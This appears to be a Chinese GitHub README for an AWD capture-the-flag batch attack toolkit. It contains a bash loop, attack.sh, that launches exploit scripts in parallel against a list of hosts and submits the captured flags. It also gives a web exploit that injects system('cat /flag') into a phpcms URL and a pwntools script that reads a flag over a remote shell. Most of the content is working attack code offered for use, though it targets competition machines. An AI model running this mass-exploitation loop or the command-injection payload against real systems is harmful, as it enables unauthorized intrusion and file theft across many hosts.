 # awd_script



AWD批量攻击脚本(Web/Pwn通用)，通过bash编写，远程信息采用参数传入exp，通过多进程方式实现同时攻打，阻塞超时自动结束进程。

各位师傅，下面批量脚本已运用在多次线下awd比赛中，其中web/pwn都运用过，各位web|| pwn师傅给个星是对我最大的支持，谢谢！



文件目录

```
.
├── attack.sh : 批量攻击脚本
├── hosts : 攻击靶机远程信息，ip:port
├── init_hosts.sh : 初始化队伍ip和端口，将信息储存在hosts文件
├── init_path.sh : 初始化文件目录，web && pwn [一般不使用]
├── pwn_exp.py : awd pwn exp脚本例子
├── pwn_upload.py : 文件上传脚本 [PWN使用]
├── submit_flag.py  : 批量提交flag脚本
└── web_exp.py : awd web exp脚本例子
```



## 批量如何使用？

attack.sh脚本就是批量攻击脚本，攻击脚本如下。

```sh
#! /bin/sh
# A script for awd loop attack

attack_times=10000 # 总共攻击循环次数，设置大一点，就不用管了
round_wait_time=540 # 下一轮次的等待时间，也就是flag的刷新间隔时间
wait_submit_time=20 # 在实现一次循环攻击后，等待多久调用自动批量提交flag脚本，根据自身exp多久拿到flag来调整，web一般短一点，而pwn的话可能要长一点。
log_file="logs" # 输出的日志文件
run_time=3m # 运行exp多久后自动杀掉，有时候会出现阻塞现象，导致卡死，采用超时杀掉进程即可。
next_attack_time=0.2 # 一个循环中，下一个攻击的时间，0.2s基本可以了，若自己电脑性能一点的话，可以设置小一点。

log() {
    t=`date "+%H:%M:%S"`
    m="[$t]$m"
    info="\033[43;37m $m ]\033[0m"
    echo -e "$info"
    echo -e "\n$m" >> $log_file
}

attack() {
    rm flags
    for line in `cat hosts`;do
        timeout --foreground $run_time  python ./web_exp.py $line & # 调用exp，传入远程信息。
        sleep $next_attack_time # 两次攻击之间的间隔时间，不要设置为0,不然会出现莫名奇妙的错误
    done
    echo -e "\x1b[47;30m Waitting $wait_submit_time s to submit flag\x1b[0m"
    sleep $wait_submit_time # 等待提交
    echo -e "\x1b[47;30m Submiting flag\x1b[0m"
    python3 ./submit_flag # 打完一次批量后，自动提交flag，若批量提交flag脚本还没实现，可以注释掉
}

for((i=1; i <= $attack_times; i++)); # 循环攻打
do
    m="-------- round $i --------"
    log $m
    attack
    echo -e "\x1b[47;30m Waitting next round\x1b[0m"
    sleep $round_wait_time # 等待下一轮次
done
```



每次攻击循环，会依次遍历hosts文件中的远程信息，采用多进程方式进行攻打。

单个攻击命令执行如下

```bash
timeout --foreground $run_time python ./exp $line &
```

而$line是从hosts文件取出来的单行信息，用于给exp传入远程host信息。

hosts文件格式是 ip:port

```
172.20.5.1:6022
172.20.5.2:6022
172.20.5.3:6022
172.20.5.4:6022
172.20.5.5:6022
172.20.5.6:6022
```

在exp中处理接受一下参数即可，如下。

```python
server_ip = sys.argv[1].split(':')[0]
server_port = int(sys.argv[1].split(':')[1])
```

接受到的信息，在细微调整一下exp即可。

攻击成功后，在exp中将flag写入flags文件中，方便根据平台接口实现批量提交flag。



拿到flag之后建议在自己的exp中调用以下函数将flag写入到./flags文件

```python
def write_to_flags(d):
    fd = open('./flags', 'ab')
    fd.write(d + b'\n')
    fd.close()
```

Web的话师傅们自行调整下。





web exp例子

```python
#! /usr/bin/python3
import os
import sys
import requests

def write_to_flags(d):
	fd = open('./flags', 'ab')
	fd.write(d + b'\n')
	fd.close()

server_ip = sys.argv[1].split(':')[0]
server_port = sys.argv[1].split(':')[1]
url = 'http://'
url += server_ip + ':' + server_port + '/phpcms/modules/sms/sms.php?a=system(%27cat%20/flag%27);'
res = requests.get(url,timeout=2)
data = res.text
flag = ('flag{' + data.split('{')[1]).split('}')[0] + '}'

#data = data.split('}')[0] + '}\n'
print(flag)
write_to_flags(flag.encode())
```



pwn_exp例子:

```python
#!/usr/bin/env python3
# A script for awd exp

from pwn import *
import os
import sys

def write_to_flags(d):
    fd = open('./flags', 'ab')
    fd.write(d + b'\n')
    fd.close()

ip = server_ip = sys.argv[1].split(':')[0]
port = int(sys.argv[1].split(':')[1])
io = remote(ip, port)

io.sendline('cat flag')
io.recvuntil('{')
flag = 'flag{' + io.recvuntil('}')
write_to_flags(flag)


io.interactive()
```

